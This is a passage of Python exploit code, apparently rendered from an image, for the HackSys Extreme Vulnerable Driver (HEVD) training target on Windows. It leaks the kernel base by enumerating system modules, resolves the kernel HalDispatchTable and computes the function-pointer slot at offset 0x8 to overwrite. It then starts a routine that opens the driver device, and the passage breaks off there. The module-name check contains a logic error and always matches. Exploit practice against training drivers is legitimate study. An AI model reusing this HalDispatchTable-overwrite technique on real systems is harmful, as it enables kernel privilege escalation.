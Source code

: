 ```python
                    ("LoadOrderIndex", c_ushort),
                    ("InitOrderIndex", c_ushort),
                    ("LoadCount", c_ushort),
                    ("ModuleNameOffset", c_ushort),
                    ("ImageName", c_char * 256)]

    # thanks GradiusX
    handle_num = c_ulong(0)
    handle_num_str = create_string_buffer(sys_info.raw[:8])
    memmove(addressof(handle_num), handle_num_str, sizeof(handle_num))

    print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))

    sys_info = create_string_buffer(sys_info.raw[8:])

    counter = 0
    for x in range(handle_num.value):
        tmp = SYSTEM_MODULE_INFORMATION()
        tmp_si = create_string_buffer(sys_info[counter:counter + sizeof(tmp)])
        memmove(addressof(tmp), tmp_si, sizeof(tmp))
        if "ntoskrnl" or "ntkrnl" in tmp.ImageName:
            img_name = tmp.ImageName.split("\\")[-1]
            print("[*] Kernel Type: {}".format(img_name))
            kernel_base = hex(tmp.ImageBase)[:-1]
            print("[*] Kernel Base: {}".format(kernel_base))
            return img_name, kernel_base
        counter += sizeof(tmp)

def hal_calc(img_name, kernel_base):

    
    kernel32.LoadLibraryA.restype = c_uint64
    kernel32.GetProcAddress.argtypes = [c_uint64, POINTER(c_char)]
    kernel32.GetProcAddress.restype = c_uint64
    
    kern_handle = kernel32.LoadLibraryA(img_name)
    if not kern_handle:
        print("[!] LoadLibrary failed to retrieve handle to kernel with error: {}".format(str(GetLastError())))
        sys.exit(1)
    print("[*] Kernel Handle: {}".format(hex(kern_handle))[:-1])

    userland_hal = kernel32.GetProcAddress(kern_handle,"HalDispatchTable")
    if not userland_hal:
        print("[!] GetProcAddress failed with error {}".format(str(GetLastError())))
        sys.exit(1)
    print("[*] Userland HalDispatchTable Address: {}".format(hex(userland_hal))[:-1])

    kernel_hal = userland_hal - kern_handle + int(kernel_base,16)
    printable_hal = hex(kernel_hal)
    if printable_hal[-1] == "L":
        printable_hal = printable_hal[:-1]
    print("[*] Kernel HalDispatchTable Address: {}".format(printable_hal))

    target_hal = kernel_hal + 0x8    
    print("[*] Target HalDispatchTable Function Pointer at: {}".format(hex(target_hal)[:-1]))

    return target_hal    

def send_buf(target_hal):

    hevd = kernel32.CreateFileA(
```